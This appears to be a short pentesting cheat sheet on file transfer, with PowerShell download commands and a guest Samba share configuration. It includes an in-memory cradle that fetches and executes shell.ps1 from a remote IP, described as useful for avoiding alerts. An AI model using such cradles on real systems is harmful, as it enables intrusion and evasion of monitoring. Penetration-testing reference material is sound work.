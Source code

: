 ## Powershell

In-memory download cradle *handy for pentesting as nothing gets written to disk so there is less chance of triggering a related alert*

```bash
IEX(New-Object Net.WebClient)downloadString('http://10.10.14.4/shell.ps1')
```

### Standard Web Request

```bash
iwr ‘http://10.10.14.4/shell.ps1’ -Outfile C:\Windows\temp\shell.ps1

Invoke-WebRequest -Url http://10.10.14.4/shell.ps1 -Outfile C:\Windows\temp\shell.ps1
```

## SMB

### Standard SMB

1. Modify /etc/samba/smbd.conf. Add the following to the bottom:

```bash
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = tengu
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[gorilla]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

### Set folder permissions

```bash
chmod 0555 /var/www/html/pub
chown -R nobody:nogroup /var/www/html/pub

```

### Restart Samba
